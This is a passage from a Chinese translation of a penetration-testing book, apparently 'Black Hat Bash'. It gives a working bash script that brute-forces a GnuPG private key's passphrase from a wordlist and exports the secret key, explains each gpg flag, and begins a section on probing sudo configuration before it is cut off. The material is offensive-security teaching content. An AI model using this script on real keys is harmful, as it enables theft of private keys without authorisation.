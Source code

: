 列表 9-1 操作的是一个名为 *passphrases.txt* 的文件，该文件包含了一些可能的密码短语。它假设 GnuPG 密钥的 ID 为电子邮件 *identity@blackhatbash.com*。

gnupg_passphrase_bf.sh

```
#!/bin/bash
❶ KEY_ID="identity@blackhatbash.com"

❷ if ! gpg --list-keys | grep uid | grep -q "${KEY_ID}"; then
  echo "Could not find identity/key ID ${KEY_ID}"
  exit 1
fi

while read -r passphrase; do
  echo "Brute forcing with ${passphrase}..."
❸ if echo "${passphrase}" | gpg --batch \
                                --yes \
                                --pinentry-mode loopback \
                                --passphrase-fd 0 \
                                --output private.pgp \
                                --armor \
                                --export-secret-key "${KEY_ID}"; then
       echo "Passphrase is: ${passphrase}"
       echo "Private key is located at private.pgp"
       exit 0
  fi
done < passphrases.txt 
```

列表 9-1：暴力破解受保护的 GnuPG 私钥

在此脚本中，我们定义了一个名为 `KEY_ID` 的变量，用于指定我们要暴力破解的密钥 ID ❶。在 ❷，我们列出了所有可用的密钥，并使用 `grep` 查找要暴力破解的密钥 ID，以确保该密钥存在。然后，我们通过 while 循环逐行遍历 *passphrase.txt* 文件，回显密码短语 ❸，并将其作为输入传递给 gpg 命令。

该命令包含一系列重要参数，使我们能够以自动化的方式暴力破解密码短语。`--batch --yes` 标志允许 pgp 命令在无人值守的情况下执行，`--pinentry-mode loopback` 允许我们伪造密码输入，`--passphrase-fd 0` 使 pgp 从文件描述符零（标准输入流）读取密码短语，`--output` 将输出写入我们选择的文件，`--armor` 使用 ASCII 格式化导出的密钥，`--export-secret-key` 是用于导出密钥的标识符。

如果 pgp 命令返回的退出代码为零，表示密码短语有效，或者根本没有设置密码短语，此时我们退出。

> 注意

*您可以在此章节的脚本位于* [`github.com/dolevf/Black-Hat-Bash/blob/master/ch09`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch09)。

为了进一步利用这一漏洞并练习您的 bash 脚本编写，改进脚本以便它能够遍历所有可用的密钥身份，并逐一进行暴力破解。

## 检查 sudo 配置

`sudo` Linux 命令将用户权限提升为 root，而不授予该用户直接访问 root 账户的权限。假设您是服务器的管理员，并希望授予其他用户添加新防火墙规则的能力。虽然您可以直接将 root 账户密码交给他们，但这样做可能会导致安全问题。使用 `sudo`，您可以授予该用户运行某些命令的权限，比如 `iptables` 命令或类似 `tcpdump` 的工具，而不暴露 root 账户的密码。

从攻击者的角度来看，sudo 配置值得探索，因为配置错误可能会让您访问敏感资源。在 Kali 机器上，内置的 *kali* 用户默认具有 sudo 权限。您可以通过运行以下命令来测试：
